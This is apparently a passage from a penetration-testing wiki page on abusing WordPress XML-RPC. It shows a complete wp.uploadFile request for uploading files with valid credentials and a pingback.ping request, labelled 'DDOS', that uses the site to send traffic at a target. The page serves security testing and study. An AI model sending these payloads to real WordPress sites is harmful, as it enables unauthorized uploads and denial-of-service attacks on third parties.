 Using the correct credentials you can upload a file. In the response the path will appears ([https://gist.github.com/georgestephanis/5681982](https://gist.github.com/georgestephanis/5681982))

```markup
<?xml version='1.0' encoding='utf-8'?>
<methodCall>
    <methodName>wp.uploadFile</methodName>
    <params>
        <param><value><string>1</string></value></param>
        <param><value><string>username</string></value></param>
        <param><value><string>password</string></value></param>
        <param>
            <value>
                <struct>
                    <member>
                        <name>name</name>
                        <value><string>filename.jpg</string></value>
                    </member>
                    <member>
                        <name>type</name>
                        <value><string>mime/type</string></value>
                    </member>
                    <member>
                        <name>bits</name>
                        <value><base64><![CDATA[---base64-encoded-data---]]></base64></value>
                    </member>
                </struct>
            </value>
        </param>
    </params>
</methodCall>
```

#### DDOS

```markup
<methodCall>
    <methodName>pingback.ping</methodName>
    <params>
        <param><value><string>http://target/</string></value></param>
        <param><value><string>http://yoursite.com/and_some_valid_blog_post_url</string></value></param>
    </params>
</methodCall>
```

![](<../../.gitbook/assets/image (103).png>)
